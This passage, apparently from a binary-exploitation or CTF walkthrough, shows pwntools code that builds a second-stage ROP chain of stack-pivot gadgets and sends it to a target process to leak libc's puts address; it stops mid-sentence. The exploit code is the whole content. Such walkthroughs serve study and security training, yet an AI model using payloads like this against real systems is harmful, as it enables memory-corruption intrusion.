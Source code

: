 ```python
second_stage_payload = flat({
    0: print_addr,
    0x20:[
        print_addr+0x20,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        print_call,
        0x4141414141414141,
        0x4242424242424242,
        ]
    })

io.sendline(second_stage_payload)

log.info(f'second stage out: {io.recvline()}')

libc_puts_addr = u64(io.recvline().strip().ljust(8,b"\x00"))

log.success(f'LIBC LEAKED PUTS ADDR: {hex(libc_puts_addr)}')
```

The execution of this payload,
